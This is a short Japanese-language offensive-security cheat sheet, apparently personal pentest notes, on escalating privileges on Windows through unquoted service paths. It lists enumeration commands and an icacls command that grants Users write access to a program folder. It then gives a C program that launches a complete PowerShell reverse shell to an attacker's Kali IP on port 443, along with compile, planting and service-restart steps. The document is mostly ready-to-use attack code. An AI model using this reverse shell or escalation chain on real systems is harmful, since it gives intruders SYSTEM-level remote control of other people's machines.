 # Unquoted Service Path

* 前提条件:通常の権限を持ったユーザで侵入はできていること。
* ユーザが端末の再起動またはサービスの再起動ができること。

## enumeration

* ユーザの権限を確認

``` bat
    whoami /priv
```

* cmdで脆弱性のあるサービスのパスの確認

``` bat
    wmic service get name,pathname,displayname,startmode | findstr /i /v | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

powershellならこっち

```powershell
    Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
```

* サービスの情報を確認
  * START_TYPE: AUTO_START
  * ERROT_CONTROL:NORMAL
  * BINARY_PATH_NAME:
  * SERVICE_START_NAME:Local System

``` bat
    sc qc "<service_name>"
```

* サービスフォルダーの権限の確認
書き込み権限があるかを確認する。

``` bat
    icacls "C:\Program Files\<Forder_name>"

    権限追加
    icacls "C:\Program Files\<Forder_name>" /grant BUILTIN\Users:W
```

## Exploit

* Revearse Shellをとって権限昇格
  * msfvenomでexeファイルを作成して転送
  * 下のcのソースを使ってexeを作成して転送
  * 実行ファイル名は脆弱性を利用できる名前にする。

``` c
    #include <windows.h>
    #include <stdio.h>

    int main(){
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0;
    }
```

* コンパイル

``` shell
    #gccでコンパイルするとinclude<windows.h>でエラーが出た
    #使用コマンド
    x86_64-w64-mingw32-gcc XXX.c -o XXX.exe
```

* 転送してファイルを脆弱性のあるフォルダに配置

* サービスの再起動か端末の再起動

``` bat
    #サービス
    sc stop "<service_name>"
    sc start "<service_name>"
    #端末
    shutdown /r /t 0 /f
```
